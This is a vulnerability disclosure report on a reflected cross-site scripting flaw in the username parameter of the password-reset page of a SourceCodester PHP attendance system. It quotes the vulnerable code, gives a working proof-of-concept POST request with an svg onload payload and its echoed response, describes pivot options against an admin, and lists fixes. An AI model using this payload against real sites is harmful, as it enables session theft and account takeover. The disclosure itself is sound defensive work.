

# SourceCodester Smart Attendance System with QR Code Scanner 1.0 /reset_password.php username= Reflected XSS

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18702/smart-attendance-system-qr-code-scanner-phpmysql.html
- https://www.sourcecodester.com/download-code?nid=18702

## Overview

- Smart Attendance System with QR Code Scanner, version 1.0 (current public download, 2026-11), embeds the raw `username` POST parameter into its success message on the unauthenticated password-reset page and renders that message without HTML escaping — the only unescaped output sink in the entire codebase. Any visitor who submits (or is tricked into submitting) a crafted username executes attacker JavaScript in the context of the site, on a page that shares the session cookie store of the authenticated admin area.

## Details

- Vulnerable file: `/reset_password.php`
- Affected version: 1.0 (current public download, 2026-11)
- The message is built from unescaped user input in two branches:

```php
// reset_password.php:25
$message = "Success! Password for user '<strong>$username</strong>' has been updated.";
// reset_password.php:33
$message = "User '<strong>$username</strong>' was not found, so a NEW account was created with this password.";
```

- and printed raw — no `htmlspecialchars` anywhere in the chain:

```php
// reset_password.php:59-61
<?php if($message): ?>
    <div class="alert alert-success text-center">
        <?= $message ?>
```

- For contrast, every other echo site in this codebase (dashboard, student lists, export) wraps values in `htmlspecialchars` — this sink is the one exception. Side effect: the POST also INSERTs a `users` row whose username is the payload.

## Description

- `/reset_password.php` requires no authentication, so the reflected XSS fires in the unauthenticated context but on the application's origin — attacker script can read/write anything on that origin, hook the admin's next login by luring them to a crafted reset link/POST, or pivot to the authenticated pages that share the cookie jar. Because the payload lands in a `users` insert as well, a second, stored-flavored trigger surface exists (the payload becomes a username that the login form will later autocomplete/reflow). Exploitation is a single POST; no CVE covering this file or parameter exists.

## PoC

- Request (no cookie):

```
POST /reset_password.php HTTP/1.1
Host: 127.0.0.1:8142
Content-Type: application/x-www-form-urlencoded

username=<svg/onload=alert(6)><b>XSS2</b>&password=x12345
```

- Response — payload echoed verbatim into the success alert:

```html
User '<strong><svg/onload=alert(6)><b>XSS2</b></strong>' was not found, so a NEW account was created with this password.
```

- Browser verification: submitting the same POST via a real page navigation produced an `alert(6)` dialog on page load (`# Open dialog alert: 6`); the DOM contained a live `svg[onload]` element and the rendered `<b>XSS2</b>` text.

## Payload

```
username=<svg/onload=alert(6)><b>XSS2</b>
```

## Screenshot: payload executes on page load

After dismissing the alert, the page shows the injected `<b>XSS2</b>` rendered as markup inside the success message — the `svg/onload` had already fired (dialog captured in the session transcript).



Full evidence log: `poc/F06-reflected-xss-reset.txt`.

## Suggested repair

1. Escape at output: `<?= htmlspecialchars($message, ENT_QUOTES) ?>` in reset_password.php:61 — matching every other sink in this codebase.
2. Better, stop interpolating user input into messages entirely: print a static confirmation and pass the verified username through `htmlspecialchars` only if it must be shown.
3. Do not create user accounts as a side effect of a reset attempt (see the Missing Authorization report for this file) — the payload-as-username insert amplifies this XSS.
4. Add a `Content-Security-Policy` header as defense-in-depth for legacy inline handlers.

## Dedup note

- NVD: no entry mentions `reset_password.php` (the product's only CVE, CVE-2026-95957, is an XSS in `student_signup.php` — different file and parameter, checked 2026-11-09).
- VulDB: only VDB-408556 exists for this product (same student_signup XSS). This is a different file/parameter — new entry.
